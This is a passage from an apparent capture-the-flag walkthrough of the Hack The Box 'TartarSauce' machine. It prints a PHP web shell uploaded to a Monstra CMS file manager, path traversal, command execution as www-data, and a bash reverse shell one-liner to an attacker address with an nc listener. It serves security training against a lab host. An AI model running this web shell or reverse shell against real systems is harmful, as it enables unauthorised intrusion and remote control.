 ```
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>

------WebKitFormBoundaryceAmGXkJIT2kquTo
Content-Disposition: form-data; name="upload_file"

Upload
------WebKitFormBoundaryceAmGXkJIT2kquTo--
```

Browsing again to
> http://tartarsauce.htb//webservices/monstra-3.0.4/admin/index.php?id=filesmanager&path=uploads/.......//./.......//./.......//./.......//./webservices/././

We can confirm that the upload was successfull.
![](https://github.com/nikip72/HTB/raw/main/TartarSauce/screenshot5.png)

Accessing newly uploaded PHP script it is now possible to execute commands on the host as _www-data_.
```
# curl -s http://tartarsauce.htb/sh.php7?cmd=id|html2text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Checking out if _curl_ is installed on the target host. Commands containing special chars and spaces should be _url encoded_
```
# curl -s http://tartarsauce.htb/sh.php7?cmd=whereis%20curl|html2text
curl: /usr/bin/curl /usr/share/man/man1/curl.1.gz
```

Creating script for basic reverse shell
```
# echo /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.45/9876 0>&1' > r.sh
```

Setting up local listener
```
# nc -lvp 9876
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9876
Ncat: Listening on 0.0.0.0:9876
```
